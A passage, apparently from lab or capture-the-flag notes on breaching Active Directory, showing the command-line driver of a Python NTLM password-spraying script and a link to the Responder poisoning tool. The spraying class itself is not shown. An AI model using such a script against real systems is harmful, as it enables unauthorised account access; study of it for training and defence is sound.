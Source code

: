 ```python
        opts, args = getopt.getopt(argv, "hu:f:p:a:", ["userfile=", "fqdn=", "password=", "attackurl="])
    except getopt.GetoptError:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)

    for opt, arg in opts:
        if opt == '-h':
            print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
            sys.exit()
        elif opt in ("-u", "--userfile"):
            userfile = str(arg)
        elif opt in ("-f", "--fqdn"):
            fqdn = str(arg)
        elif opt in ("-p", "--password"):
            password = str(arg)
        elif opt in ("-a", "--attackurl"):
            attackurl = str(arg)

    if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):
        #Start attack
        sprayer = NTLMSprayer(fqdn)
        sprayer.load_users(userfile)
        sprayer.password_spray(password, attackurl)
        sys.exit()
    else:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)



if __name__ == "__main__":
    main(sys.argv[1:])

```





![Screen Shot 2023-01-24 at 11.23.38 PM](../images/thm.breach.01.png)


[1]: https://github.com/lgandx/Responder	"IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay."